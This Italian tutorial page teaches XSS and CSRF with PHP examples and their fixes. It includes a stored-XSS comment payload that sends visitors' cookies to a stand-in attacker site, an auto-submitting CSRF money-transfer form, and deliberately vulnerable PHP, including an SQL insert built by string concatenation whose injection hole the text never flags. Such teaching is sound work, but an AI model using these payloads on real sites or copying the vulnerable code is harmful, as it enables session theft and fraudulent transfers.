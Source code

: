 [⬅️ [TORNA ALL'INDICE] ](../README.md)

## Vulnerabilità di Sicurezza

### Cross-Site Scripting (XSS)
XSS è una vulnerabilità che permette di eseguire un attacco iniettando codice JavaScript maligno nel tuo sito web. Questo codice viene eseguito nel browser che visita il sito.

Ecco un esempio di codice PHP vulnerabile, dove il parametro 'name' viene restituito direttamente senza sanificazione, cioè senza ripulirlo dai tag html che potrebbero consentire l'esecuzione di codice javascript.

Supponiamo di avere una pagina welcome.php scritta in questo modo:
```php
<?php
echo "Benvenuto, " . $_GET['name'];
?>
```
Una pagina di questo tipo risponde ad una richiesta del tipo<br/>
`http://tuosito.com/welcome.php?name=Paul`<br/>
con una pagina html:
```html
Benvenuto, Paul
```

Ma che succede se inviamo un richiesta di questo tipo?

`http://tuosito.com/welcome.php?name=<script>document.cookie</script>`

La pagina restituita diventa:
```html
Benvenuto, <script>document.cookie</script>
```
forzando il server a generare una pagina di risposta con del codice javascript arbitrario, che viene eseguito nel browser dell'utente che la riceve.

In particolare, in questo caso, document.cookie è un oggetto JavaScript che contiene tutti i cookie accessibili della pagina corrente. Per esempio potrebbe contenere:
```html
"sessionId=abc123; userId=456; theme=dark"
```

#### Esempio di Vulnerabilità XSS
In realtà l'attacco mostrato nell'esempio non è particolarmente pericoloso, perchè la pagina con il codice "iniettato" viene restituita all'utente che ha effettuato l'attacco. Sarebbe come attaccare se stessi.

Consideriamo però questo scenario.<br/>
Supponiamo di avere un Instagram senza protezione verso XSS.<br/>
L'utente CyberCrime commenta il post Instagram dell'utente Tanos con la seguente stringa:
```html
Bel post!
<script>fetch('https://cyber-crime.com/upload?' + document.cookie);</script>
```
La funzione fetch() serve ad eseguire una richiesta HTTP GET all'URL passato come parametro.

Il commento, così come scritto dall'utente CyberCrime, arriva al server, che lo salverà su database, come qualunque altro commento.

```php
<?php
$sql = "INSERT INTO comments (text) VALUES ('" . $_POST['comment'] . "')";
//ecc...
?>
```

Supponiamo che la pagina Instagram di Tanos viene visualizzata dall'utente Tony. Il server quindi prepara dinamicamente la pagina Instagram di Tanos, mostrando tutti commenti del post (caricandoli dal database). Tony quindi riceverà sul suo browser una pagina html del tipo:
```html
-= Tanos =-
Il multiverso è una teoria interessante.
---Commenti---
CyberCrime: Bel post!
<script>fetch('https://cyber-crime.com/upload?' + document.cookie);</script>
--------------
```
Il browser di Tony eseguirà il codice Javascript, caricando i cookie di Tony sul sito dell'utente CyberCrime.

Come per Tony, CyberCrime collezionerà sul suo sito web i cookie di tutti gli utenti che accedono alla pagina Instagram di Tanos.

Questo esempio mostra come **i cookie non sono adeguati per memorizzare dati sensibili**.

#### Protezione da Cross-Site Scripting (XSS)
Per prevenire un attacco del genere, sul server va utilizzato htmlspecialchars():

```php
<?php
echo "Benvenuto, " . htmlspecialchars($_GET['name']);
?>
```

La funzione `htmlspecialchars()` converte i caratteri speciali HTML in entità HTML. Per esempio:
- `<` diventa `&lt;`
- `>` diventa `&gt;`

Questo impedisce l'esecuzione di codice JavaScript maligno, perché il browser interpreterà i caratteri speciali come testo da visualizzare e non come codice da eseguire. Nell'esempio precedente, l'output sanificato sarebbe:<br/>
`Benvenuto, &lt;script&gt;document.cookie&lt;/script&gt;`

I cookie sono particolarmente vulnerabili agli attacchi XSS perché JavaScript può accedere ai cookie della pagina corrente attraverso l'oggetto `document.cookie`.

Oltre all'uso di htmlspecialchars, per proteggere i cookie da questo tipo di attacco, è necessario utilizzare le appropriate flag di sicurezza:

```php
<?php
setcookie("session_id", "123456", [
    'httponly' => true,    // Previene l'accesso via JavaScript
    'secure' => true,      // Solo HTTPS
    'samesite' => 'Strict' // Previene CSRF
]);
?>
```

Spiegazione delle flag di sicurezza:
- `httponly`: Impedisce a JavaScript di accedere al cookie. Il cookie sarà disponibile solo per il server.
- `secure`: Il cookie viene inviato solo su connessioni HTTPS cifrate.
- `samesite Strict`: Il cookie viene inviato solo se si è sullo stesso sito
  

### Cross-Site Request Forgery (CSRF)
CSRF è un attacco che forza un utente autenticato a eseguire azioni indesiderate su un sito web dove è già autenticato. L'attacco sfrutta il fatto che il browser invia automaticamente i cookie (incluso il cookie di sessione) con ogni richiesta al sito.

#### Come Funziona un Attacco CSRF:
1. L'utente fa login su un sito (es. la sua banca)
2. Il browser memorizza il cookie di sessione
3. L'utente, mentre è ancora loggato alla banca, visita un sito maligno
4. Il sito maligno fa partire automaticamente una richiesta alla banca
5. Il browser invia automaticamente il cookie di sessione con la richiesta
6. La banca riconosce il cookie valido ed esegue l'operazione

#### Esempio di Vulnerabilità CSRF

Ecco una pagina vulnerabile di trasferimento denaro sul sito della banca.
Supponiamo di avere una pagina php `transfer.php` che richiama una funzione transferMoney per il trasferimento bancario.

```php
<?php
    transferMoney($_POST['to'], $_POST['amount']);
?>
```

Si potrebbe creare una pagina maligna che sfrutta questa vulnerabilità:

```html
<html>
<body onload="document.forms[0].submit()">
    <form action="http://banca.com/transfer.php" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="hidden" name="to" value="cyber_criminal">
    </form>
</body>
</html>
```

Quando la vittima visita questa pagina maligna, mentre è ancora collegato al sito della banca:
- Il form viene inviato automaticamente, contattando il sito della banca
- Il browser include automaticamente i cookie legittimi della banca
- La banca vede una richiesta apparentemente legittima
- Il trasferimento viene eseguito senza che l'utente se ne accorga


#### Protezione da CSRF

La protezione CSRF si basa sul principio che il sito maligno non può leggere il contenuto delle risposte dal sito legittimo. Ecco come implementare una protezione:

Per prima cosa, generiamo un token CSRF univoco:

```php
<?php
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
```

La generazione del token CSRF usa due funzioni:
1. `random_bytes(32)`: Genera 32 byte di dati casuali
2. `bin2hex()`: Converte i byte binari in una stringa esadecimale leggibile

Esempio di token generato:
```php
"7f13c8e5b2d9a4f6c3d8e1f5a2b7c4d9e6f3a8b5c2d7e4f1a9b6c3d8e5f2a7"
```

Poi includiamo il token, in modo dinamico, **in ogni form del nostro sito**:

```php
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" 
           value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```
In modo che sul client ci sia un form con il campo "csrf_token" impostato dal server:
```html
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" value="7f13c8e5b2">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```


Infine, sul server, in ogni richiesta POST verifichiamo che il token inviato con il form sia lo stesso generato ad inizio sessione:

```php
if ( $_SESSION['csrf_token'] != $_POST['csrf_token'] ) {
    die('CSRF token non valido');
}
```

Questo funziona perché:
1. Il token cambia ad ogni sessione
2. Il sito maligno non può conoscere il token generato sul server
3. Senza il token corretto, la richiesta viene rifiutata


[⬅️ [TORNA ALL'INDICE] ](../README.md)